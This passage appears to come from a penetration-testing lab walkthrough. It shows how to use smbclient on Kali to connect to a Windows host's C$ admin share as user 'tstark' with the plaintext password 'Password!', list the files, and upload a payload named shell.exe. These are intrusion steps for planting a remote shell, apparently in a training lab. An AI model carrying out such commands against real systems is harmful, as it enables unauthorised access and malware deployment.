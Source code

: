 2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`

    - This connects to the `C` drive on the remote machine as the user tstark. 

3. You will then be asked for a password. Input tstark's password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`

    ![A screenshot depicts the results of the command.](Images/put.png)
